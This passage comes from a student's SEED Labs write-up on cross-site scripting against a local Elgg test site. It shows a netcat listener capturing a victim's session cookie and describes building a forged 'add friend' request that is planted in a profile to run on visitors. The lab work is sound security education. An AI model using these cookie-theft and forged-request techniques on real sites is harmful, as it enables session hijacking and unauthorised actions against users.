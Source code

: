 <ol start="5555">
<li>I then navigate to Samy’s account page and upon doing so the following is output in the console:</li>
</ol>
&nbsp;

[10/14/20]seed@VM:~$ nc -l 5555 -v

Listening on [0.0.0.0] (family 0, port 5555)

Connection from [127.0.0.1] port 5555 [tcp/*] accepted (family 2, sport 59966)

GET /?c=Elgg%3Dc7hjoefr9lv9vjqej6n0n7tu22 HTTP/1.1

Host: 127.0.0.1:5555

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0 Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://www.xsslabelgg.com/profile/samy

Connection: keep-alive

&nbsp;

This shows that we can see Alice’s cookie information within the GET request which means we are successful in this task.&nbsp; All commands used are included above as well as their output.

&nbsp;

<strong>&nbsp;</strong>

<h1>Task 4: Becoming a Victim’s Friend</h1>
&nbsp;

In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. The objective of the attack is to add Samy as a friend to the victim.&nbsp; To do so, we need to figure out how the ‘add friend’ handles requests.&nbsp; I do this by logging into Bobby’s account and adding Samy as a friend while taking note of the incoming requests using the network tool provided by Firefox.&nbsp; The request is a GET request, and in the URL we see the parameters used.&nbsp; In the parameters tab we see the field ‘friend’ with a value of 47.&nbsp; This means that in order to add a friend, you need the friend value of the person you want as a friend.&nbsp; This implies that Samy has a friend value of 47. We also see in the Parameters tab the Elgg token and ts.&nbsp; Using information from this request, we can now create our request using JavaScript that will add Samy as a friend to anyone that visits his profile. The bulk of the code is provided, and the part that we need to fill in is the URL that we will be using to send the request.&nbsp; The URL is based on the information we gathered for this task and is as follows:

‘”http://www.xxslabelgg.com/action/friends/add?friend=47”+ts+token’.&nbsp; After adding the URL to the program, I logged into Samy’s account and edited his page so that the about me now included the JavaScript for adding him as a friend to a victim user.&nbsp; After clicking save, the page reloads and Samy is added to his own friend list.&nbsp; To check and see if the attack works, I log into Boby’s account and make sure Samy is not currently a friend of Boby.&nbsp; I then click on Samy’s webpage, and the page loads. I then click on the Activity tab and see that in the activity feed, there is a notification saying that Boby is now a friend of Samy.&nbsp; This shows that Samy has been successful in adding Boby as a friend without Boby’s knowledge.&nbsp;&nbsp; The JavaScript used for this task is contained within a file called ‘task4.js’ under the /home/seed/labs/xss directory in the VM.&nbsp; Questions for this task are answered below:
